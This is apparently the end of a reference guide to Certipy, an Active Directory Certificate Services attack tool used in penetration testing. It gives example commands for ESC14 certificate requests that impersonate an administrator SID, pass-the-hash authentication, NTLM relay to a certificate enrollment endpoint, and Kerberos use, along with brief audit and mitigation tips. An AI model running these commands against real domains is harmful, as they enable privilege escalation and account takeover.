 **Command Example (ESC14)**:
```bash
certipy-ad req -u 'user1@example.local' -p 'Password123' -dc-ip 192.168.1.100 -ca CA01-CA -template VulnerableTemplate -sid 'S-1-5-21-...-500' -auto
```
**Flag Explanations**:
- `-u`, `-p`, `-dc-ip`, `-ca`, `-template`: As described above.
- `-sid 'S-1-5-21-...-500'`: Specifies the target user’s SID for certificate mapping.
- `-auto`: Automatically requests the certificate without prompting.

**Example Output**:
```
[*] Successfully requested certificate for SID S-1-5-21-...-500
```

**Use Case**: Exploits weak `altSecurityIdentities` mappings for impersonation.

## Additional Flags Across Commands
Certipy supports global flags that apply to most commands:
- `-k`: Use Kerberos authentication instead of NTLM.
  ```bash
  certipy-ad find -u 'user1@example.local' -k -dc-ip 192.168.1.100
  ```
- `-hashes :NTLM_HASH`: Authenticate with an NTLM hash (pass-the-hash).
  ```bash
  certipy-ad req -u 'user1' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 -dc-ip 192.168.1.100
  ```
- `-scheme ldap|ldaps`: Specifies the protocol (LDAP or LDAPS, default: LDAPS).
  ```bash
  certipy-ad find -u 'user1@example.local' -p 'Password123' -scheme ldap
  ```
- `-debug`: Enables verbose debugging output.
- `-timeout SECONDS`: Sets the timeout for network operations.
- `-no-pass`: Prompts for a password interactively (useful for sensitive credentials).

## Advanced Techniques
- **Kerberos Authentication**: Use `-k` for environments requiring Kerberos.
- **Pass-the-Hash**: Leverage `-hashes` for hash-based attacks.
- **Custom CA Endpoints**: Specify HTTP endpoints for relay attacks:
  ```bash
  certipy-ad relay -target http://192.168.1.101/certsrv
  ```
- **BloodHound Integration**: Import `find` output into BloodHound for path analysis.

## Best Practices
- **Verbose Logging**: Use `-debug` for troubleshooting.
- **Secure Credentials**: Use single quotes for passwords with special characters.
- **Output Management**: Save results with `-output` for analysis.
- **Mitigation Audits**: Use `find` to identify and remediate vulnerabilities (e.g., disable `EDITF_ATTRIBUTESUBJECTALTNAME2`).
- **Regular Updates**: Run `pip3 install certipy-ad --upgrade` for new features.

## Notes on Completeness
This documentation covers all major Certipy commands and their associated flags, based on the Certipy wiki and version 5.0.3 as of July 2025. New features or ESC paths may be added; check the GitHub repository (https://github.com/ly4k/Certipy) or run:
```bash
certipy-ad -h
```
